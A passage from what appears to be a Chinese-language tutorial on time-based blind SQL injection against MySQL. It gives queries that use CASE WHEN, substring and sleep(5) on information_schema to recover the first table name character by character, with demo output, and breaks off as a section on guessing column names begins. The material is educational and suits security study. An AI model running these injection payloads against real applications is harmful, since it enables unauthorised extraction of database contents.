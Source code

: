 修改为0 就是出1表

修改为1 就是出2表



```plain
// 演示数据
mysql> SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1;
+------------+
| table_name |
+------------+
| tdb_admin  |
+------------+
1 row in set (0.00 sec)
```



数据库语句-读取当前库的第一张表名的第一个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT table_name FROM information_schema.tables  where table_schema=database() LIMIT 1 OFFSET 0) from 1 for 1)='t') then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 1 OFFSET 0) from 1 for 1)='t') then sleep(5) else 0 end;
Empty set (5.00 sec)
```



数据库语句-读取当前库的第一张表名的第二个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT table_name FROM information_schema.tables  where table_schema=database() LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;
Empty set (5.00 sec)
```



# 0x06 猜字段



table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名



OFFSET 0 表示要爆的位置

例如:
